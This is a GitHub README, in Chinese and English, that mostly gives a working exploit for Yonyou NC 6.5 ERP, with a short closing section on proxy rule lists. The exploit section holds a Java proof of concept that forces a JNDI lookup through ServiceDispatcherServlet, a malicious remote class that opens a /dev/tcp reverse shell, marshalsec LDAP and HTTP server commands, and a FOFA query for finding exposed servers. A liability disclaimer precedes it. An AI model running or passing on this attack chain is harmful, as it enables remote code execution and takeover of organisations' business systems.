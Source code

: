 # Bigger than Bigger

大文件存储；供后来者学习探讨。

# ATTENTION PLZ

- 1.由于传播、利用此库/文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，本文作者不为此承担任何责任。

- Any direct or indirect consequences and losses caused by the dissemination and use of the information provided by this library/text are the responsibility of the user himself, and the author of this article does not bear any responsibility for this.

- 2.转载请申明出处：*[Bigger than Bigger](https://github.com/Bin4xin/bigger-than-bigger)*

- Please state the source for reprinting : *[Bigger than Bigger](https://github.com/Bin4xin/bigger-than-bigger)*

## 零：用友nc6.5反序列化依赖jar包

- 部分依赖jar包在安装完nc6.5系统后，一般在`C://yonyou//home//lib//`目录下，前提需要有nc6.5的安装包；或者：
    - *[点击更多以了解yonyou-nc6.5-lib](https://github.com/Bin4xin/bigger-than-bigger/tree/master/yonyou-nc6.5-lib)*
        - yonyou NC v6.5 ESA 
        - fofa：title= "YONYOU NC"
        - 本机运行环境
        ```
        java version "1.8.0_181"
        Java(TM) SE Runtime Environment (build 1.8.0_181-b13)
        Java HotSpot(TM) 64-Bit Server VM (build 25.181-b13, mixed mode)

        javac 1.8.0_181
        ```

### 0x01：攻击java代码

```java
import nc.bs.framework.common.NCLocator;

import java.util.Properties;


public class poc {

    public static void attack(String url, String jndipath) {
        Properties env = new Properties();
        if (!url.startsWith("http")) {
            url = "http://" + url;
        }
        env.put("SERVICEDISPATCH_URL", url + "/ServiceDispatcherServlet");
        NCLocator locator = NCLocator.getInstance(env);
        locator.lookup(jndipath);
    }

    public static void main(String[] args) {
        attack("http://192.168.1.1:81", "ldap://192.168.1.2:1099/remote");
    }
}
```
运行起来主要报`classNotFound`，必需第三方jar包如下：

- ncdepend.jar
- log4j-1.2.15.jar
- log.jar

### 0x02：远程利用java恶意代码

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.io.Serializable;
import java.util.Hashtable;

public class remote implements ObjectFactory, Serializable {

    public remote() {
        try{
            java.lang.Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","sh -i >& /dev/tcp/ip/port 0>&1"});
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return null;
    }
}
```

### 0x03：使用方法

- jetbrains IDEA ：`file -> New -> Project -> Java`
	- *[点击更多以了解：IDEA与JAVA](https://blog.csdn.net/oschina_41790905/article/details/79475187)*
	- `src目录 -> New -> Java Class -> poc.java`即可；
	- `Project Structure -> Librabries -> + `添加lib文件夹即可；  
	
- 恶意LDAP：`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://192.168.1.2:8000/#remote" 1099`
    - *[点击更多以了解marshalsec](https://github.com/mbechler/marshalsec)*
- HTTP SERVER(remote.class)：`python3 -m http.server`

- 填入主方法下`attck url & jndipath` -> `run poc.main()`即可。

- enjoy.

### 0x04：参考链接

- [用友NC反序列化 简单分析](https://blog.sari3l.com/posts/608d18f0/#jwdp)
- [用友nc6.5详细安装过程](https://blog.csdn.net/weixin_38766356/article/details/103983787)

## 一：WALL_LISTS

### 1x01：使用方法
- SwitchyOmega
    - auto switch
    - 规则列表设置 -> AutoProxy
    - 规则列表网址  -> `https://raw.githubusercontent.com/Bin4xin/bigger-than-bigger/master/WALL_LISTS/lists.txt`
    - 立即更新

### 1x02：参考链接

- *[gfwlist/gfwlist](https://github.com/gfwlist/gfwlist)*